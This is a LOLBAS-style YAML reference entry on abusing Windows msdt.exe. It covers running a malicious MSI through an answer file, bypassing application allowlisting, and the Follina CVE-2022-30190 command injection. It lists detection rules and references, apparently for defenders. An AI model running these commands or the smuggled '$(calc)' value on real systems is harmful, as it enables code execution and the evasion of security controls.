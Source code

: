 ```yaml
---
Name: Msdt.exe
Description: Microsoft diagnostics tool
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msdt.exe /id PCWDiagnostic /skip force /param "IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc).exe"
    Description: Executes arbitrary commands using the Microsoft Diagnostics Tool and leveraging the "PCWDiagnostic" module (CVE-2022-30190). Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Execute code bypass Application allowlisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\Msdt.exe
  - Path: C:\Windows\SysWOW64\Msdt.exe
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/PCW8E57.xml
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_msdt_answer_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msdt_arbitrary_command_execution.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://web.archive.org/web/20160322142537/https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://twitter.com/harr0ey/status/991338229952598016
  - Link: https://twitter.com/nas_bench/status/1531944240271568896
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

